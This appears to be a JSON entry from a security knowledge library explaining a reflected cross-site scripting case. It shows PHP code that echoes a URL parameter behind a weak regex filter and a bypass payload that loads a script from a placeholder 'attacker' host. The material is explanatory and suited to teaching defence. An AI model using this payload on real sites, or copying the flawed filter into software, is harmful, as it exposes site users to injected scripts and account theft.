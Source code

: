 {
  "id": "22",
  "name": "Reflected Cross Site Scripting - Including external script ",
  "description": "Reflected Cross Site Scripting - Including external script :<br />Now suppose that developers of the target site implemented the following code to protect the input from the inclusion of external script:<br /><br />&lt;?<br />&nbsp; &nbsp;$re = \"/&lt;script[^&gt;]+src/i\";<br /><br />&nbsp; &nbsp;if (preg_match($re, $_GET['var']))&nbsp;<br />&nbsp; &nbsp;{<br />&nbsp; &nbsp; &nbsp; echo \"Filtered\";<br />&nbsp; &nbsp; &nbsp; return;&nbsp;<br />&nbsp; &nbsp;}<br />&nbsp; &nbsp;echo \"Welcome \".$_GET['var'].\" !\";<br />?&gt;<br /><br />In this scenario there is a regular expression checking if &lt;script [anything but the character: '&gt;' ] src is inserted. This is useful for filtering expressions like<br /><br />&lt;script src=\"http://attacker/xss.js\"&gt;&lt;/script&gt;<br /><br />which is a common attack. But, in this case, it is possible to bypass the sanitization by using the \"&gt;\" character in an attribute between script and src, like this:<br /><br />http://example/?var=&lt;SCRIPT%20a=\"&gt;\"%20SRC=\"http://attacker/xss.js\"&gt;&lt;/SCRIPT&gt;&nbsp;<br />",
  "labels": "",
  "libraryId": "1",
  "guid": "4715e532-b5e6-45ec-8921-a366efd51d3f",
  "isHidden": false,
  "isReadOnlyLibraryEntity": false,
  "libraryGuid": "eef7dcf9-53bd-48e9-849d-21445ebad101"
}